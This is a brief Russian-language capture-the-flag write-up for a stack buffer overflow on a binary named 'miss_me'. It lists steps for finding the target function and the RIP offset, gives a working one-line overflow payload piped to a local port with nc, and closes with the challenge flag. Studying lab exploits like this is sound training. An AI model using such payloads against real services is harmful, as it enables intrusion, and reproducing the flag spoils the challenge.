 ﻿На видео: [3:21:00](https://vk.com/video-114366489_456239197?t=3h21m00s)

Переписать рет-адрес на нужную функцию


1. `objdump -t miss_me` => function0
2. `pattern_create` => RIP offset
3. exploit with payload

```bash
python -c "print 'a'*40+'\xb2\x11\x40\x00\x00\x00\x00\x00'" | nc -nv 127.0.0.1 5454
```

Флаг: `flag{4ddr3ss_m0dif1c4t10n_15_c00l}`
